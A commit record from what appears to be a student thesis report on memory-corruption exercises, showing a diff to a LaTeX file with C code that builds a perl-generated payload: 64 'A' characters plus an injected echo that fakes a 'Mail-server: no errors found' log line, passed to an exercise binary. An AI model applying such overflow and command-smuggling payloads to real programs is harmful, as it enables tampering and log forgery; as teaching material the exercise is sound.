

Before and after one commit to adriaandens/Eindwerk-Verslag, a LaTeX document (verslag_oefeningen.tex, which reads verslag_oefeningen/memory-based/oef4.tex): part of page 21 of 56 before the commit and part of page 21 of 55 after it, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Update oef4.tex

```diff
--- a/verslag_oefeningen/memory-based/oef4.tex
+++ b/verslag_oefeningen/memory-based/oef4.tex
@@ -62,12 +62,7 @@ echo "Mail-server: no errors found"
 // ./a.out "$(perl -e 'print "A"x64 . "echo \"\nEPIC TEST\n\"\"')"
 
 int main(int argc, char *argv[]){
-	if(argc != 1){
-		printf("\nGebruik: %s \n", argv[0]);
-		exit(0);
-	}
-
-	char command[] = "./log-analyzer \"$(perl -e 'print \"\x41\"x64 . \"echo \\\"\\n";
+	char command[] = "./oef4 \"$(perl -e 'print \"A\"x64 . \"echo \\\"\\n";
 	strcat(command, "Mail-server: no errors found");
 	strcat(command, "\\n\\\"\"')\"");
 
```
